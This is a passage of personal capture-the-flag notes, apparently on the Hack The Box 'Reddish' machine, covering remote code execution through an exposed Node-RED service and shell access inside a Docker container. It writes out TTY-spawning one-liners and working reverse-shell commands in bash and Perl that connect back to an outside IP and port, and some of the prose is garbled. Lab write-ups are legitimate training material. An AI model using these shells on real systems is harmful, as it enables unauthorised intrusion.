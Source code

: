 Application?
- What can you do with it to CRUD the filesystem, network, etc?
- Can you replicate it 

![nodered](NODE-red.png)

TCP reply to! This is misconfiguration vulnerablity as we are affectively RCE the box with pretty much unlimited functionality through the hosting of this service using the host server. From DoSing, using it a proxy or tunnel, http server, C2 or email (it has social media and email functionality) or run javascript to mine cryptocurrency on the server owners electricity bill would be eye watering.

![shell](shell.png)

## Docker Foothold

Spawning TTYs
```bash
echo 'os.system('/bin/bash')'
/bin/sh -i
/bin/bash -i
perl -e 'exec "/bin/sh"'
lua -e "os.execute('/bin/sh')"
ruby -e 'exec "/bin/sh"'
# From within vi
:!bash
:set shell=/bin/bash:shell
# From within nmap
!sh
```

First one and half is a half and then get two for the two is one reverse shell rule.
1. `bash -c 'bash -i >& /dev/tcp/$IP/$PORT 0>&1'`
2. Perl is on the box:
```bash
perl -e 'use Socket;$i="10.10.14.123";$p=8001;socket(S,PF_INET,SOCK_STREAM,getprotobyname("tcp"));if(connect(S,sockaddr_in($p,inet_aton($i)))){open(STDIN,">&S");open(STDOUT,">&S");open(STDERR,">&S");exec("/bin/bash -i");};'
```

[Reading 0xDF try various functionality of the NodeRed application](https://0xdf.gitlab.io/2019/01/26/htb-reddish.html#code-execution--shell-in-node-red), I decided that an additional beyond root would be to do the same and the highest goal being to try to create a proxy via the NodeRED. In the beyond root section I will outline a proxy and other stuff both 0xdf and atleast one idea if I do not complete a proxy.

As a Day <4 note to self: even though I like ncat and netcat, I am glad to finally be prompted to use it as a file transfer mechanism instead of other tools. Similar to trying out powercat it felt fun, but also gratting a tad as I always see it on Enumeration Script scans after I run it.. but I don't check its there before file transfering.

Checking whether I can run in memory on the box:
![](noexecshm.png)
